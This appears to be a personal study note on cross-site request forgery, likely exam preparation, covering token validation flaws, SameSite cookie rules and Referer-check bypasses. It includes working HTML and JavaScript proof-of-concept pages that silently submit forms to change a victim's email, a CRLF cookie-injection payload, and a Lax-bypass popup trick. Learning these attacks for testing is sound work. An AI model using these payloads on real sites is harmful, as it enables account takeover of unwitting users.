 ```yaml
---
layout: blank
pagetitle: Cross-site Request Forgery
---
```



Cause a victim to do an action unintentionally by having them make a request (e.g. `https://example.com/changeemail?email=attacker@email.com`)

**CSRF requires**
- An action to induce
- Solely cookie-based session handling (not using SameSite)
  - Can also work with basic auth or cert-based auth
- No unpredictable parameters (like anti-csrf tokens)

POST request CSRF example:

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Can be generated using the CSRF PoC generator in burp suite professional
- Select request -> Generate CSRF PoC
- When using Portswigger's exploit server:
  - Paste the payload (without html or body), hit store, then hit deliver

**Common validation issues**
- Switching POST to GET 
  - Use this PoC: `<html><body><script>document.location = '{vulnerable_site}';</script></body></html>`
- Omitting the token
  - PoC above as is
- CSRF token not tied to user session (this happened with UT nonce)
  - Just get a token ourselves and add it to the form when submitting
- CSRF token in request data tied to a non-session-tracking cookie, like another CSRF token
  - If this token can be set or predicted by an attacker, they could include or set the relevant attached CSRF token
  - Can sometimes inject cookies through the URL like so:
    - `?search=test%0d%0aSet-Cookie:%20{cookie}={value}%3b%20SameSite=None` if the parameter ends up in the cookies (something like `lastSearch={search_value}`)
  - Thus, final exploit page would have something like an img or iframe with `<img src='{cookie-injection_URL}'>` along with our valid CSRF token in the POST form
- CSRF token duplicated in a cookie; no server-side record of tokens issued
  - Very similar to previous vuln, requires setting cookie on victim
  - New CSRF token can be anything as long as POST form value matches, doesn't have to be our valid token

If we need to perform a GET request first:

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20{cookie}={value}%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
    </body>
</html>
```

**SameSite Cookies**
- Strict
  - Never allows cookies to be sent in a cross-site request (iframes, links to other sites, data submission to other sites)
- Lax (default)
  - Sent only on some cross-site requests (clicking on a link or performing GET, HEAD, or OPTIONS request)
    - This means that if data is changed in a GET request (like /email/change?email=attacker@attacker.com), this would still allow CSRF
  - Sent only from top-level navigation (e.g. clicking a link)
    - Won't be sent for embedded requests (like in images, scripts, or iframes)
- None
  - No restrictions
  - Requires Secure flag (only sent over HTTPS)

**Same-site**
- Scheme (HTTPS/HTTP), TLD (.com, .co.uk), and TLD + 1 (google, utexas) must all be the same

**Same-origin**
- Scheme, entire domain, and port must all be the same

**Bypassing Lax Same-Site Cookie Restrictions**
- Need to use a GET request, similar to above
- With some frameworks, can also override the GET method using a URL parmaeter, like `?_method=POST`
  - Similarly, could use `_method = GET` in a POST request form if possible
  - This satisfies both browser-based same-site and framework-based method validation
- If `lax` is enforced by default (by the browser), these cookies only have `Lax` applied 120 seconds after sign-in (to not break SSO functionality)
  - If functionality exists to refresh the session of a user, this can be handy, especially if user won't have to log in again
    - Redirecting the victim to the login page (/login/sso or something) means they leave the payload page, so that won't work
    - Thus, open the sso page in a new tab - refreshes session in background and attack page can exploit 
      - Most browsers block `window.open()` popups, so open a new tab on-click, wait a bit for the refresh, and then submit the form:
      
```html
<form action="https://vulnerable-website.com/email/change" method="POST">
    <input type="hidden" name="email" value="pwned@evil-user.net" />
</form>
<script>
    window.onclick = () => {
        window.open('{sso_endpoint}');
        setTimeout(() => {
            document.forms[0].submit();
        }, 10000);
    };
</script>
```


**Bypassing Strict Same-Site Cookie Restrictions**
- Can use functionality within the site that results in a secondary request being sent, like a client-side redirect with URL parameter control
  - This isn't possible with server-side redirects; must originate from client (browsers know all)
- Can also use sibling domains for similar purposes (also cross-site websocket hijacking)

**Bypassing Refered-based CSRF Defenses**
- Some apps check to make sure the `Referer` header originates from the same domain
- Omitting the header can sometimes bypass this check
  - `<meta name="referrer" content="never">` - make sure it comes before the script sending the request, lol
- Starting with/containing the domain name can also be bypassed
  - `Referer: http://vulnerable-website.com.attacker-website.com/csrf-attack` would satisfy both
  - `Referrer-Policy: unsafe-url` can be included in the payload headers to allow for URL parameters/path within the query (e.g. `?vulnerable-site.com` or `/vulnerable-site.com`), which may be easier than setting up the one-trick-pony above trick
    - Portswigger exploit server doesn't really seem to have an option for setting a domain name, so might be necessary to do this on exam
